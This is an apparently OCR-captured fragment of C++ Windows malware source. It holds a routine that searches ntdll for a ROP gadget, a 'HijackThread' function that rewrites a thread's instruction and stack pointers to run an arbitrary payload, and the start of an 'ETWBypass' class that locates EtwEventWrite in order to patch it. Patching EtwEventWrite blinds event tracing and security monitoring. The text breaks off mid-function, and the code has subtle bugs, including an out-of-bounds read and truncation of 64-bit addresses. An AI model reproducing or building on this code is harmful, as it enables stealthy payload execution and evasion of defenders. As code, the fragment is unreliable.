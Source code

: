         DWORD textStart = 0;
        DWORD textSize = 0;
        
        PIMAGE_SECTION_HEADER section = IMAGE_FIRST_SECTION(ntHeaders);
        for (WORD i = 0; i < ntHeaders->FileHeader.NumberOfSections; i++) {
            if (memcmp(section[i].Name, ".text", 5) == 0) {
                textStart = section[i].VirtualAddress;
                textSize = section[i].Misc.VirtualSize;
                break;
            }
        }
        
        if (!textStart || !textSize) return 0;
        
        BYTE* code = (BYTE*)hModule + textStart;
        for (DWORD i = 0; i < textSize - 3; i++) {
            if (code[i] == 0xC3 && code[i-1] == 0x5C) {
                return (DWORD)((BYTE*)hModule + textStart + i - 1);
            }
        }
        
        return 0;
    }
    
public:
    static void HijackThread(HANDLE hThread, LPVOID payload) {
        HMODULE hNtdll = GetModuleHandleW(L"ntdll.dll");
        DWORD ropGadget = FindROPGadgets(hNtdll);
        
        if (!ropGadget) return;
        
        CONTEXT ctx;
        ctx.ContextFlags = CONTEXT_FULL;
        GetThreadContext(hThread, &ctx);
        
#ifdef _WIN64
        ctx.Rsp -= 8;
        WriteProcessMemory(GetCurrentProcess(), (LPVOID)ctx.Rsp, 
            &ropGadget, sizeof(DWORD_PTR), NULL);
        ctx.Rip = (DWORD_PTR)payload;
#else
        ctx.Esp -= 4;
        WriteProcessMemory(GetCurrentProcess(), (LPVOID)ctx.Esp, 
            &ropGadget, sizeof(DWORD), NULL);
        ctx.Eip = (DWORD)payload;
#endif
        
        SetThreadContext(hThread, &ctx);
    }
};

class ETWBypass {
private:
    static void PatchETW() {
        DWORD oldProtect;
        void* pEtwEventWrite = GetProcAddress(GetModuleHandleW(L"ntdll.dll"), "EtwEventWrite");
        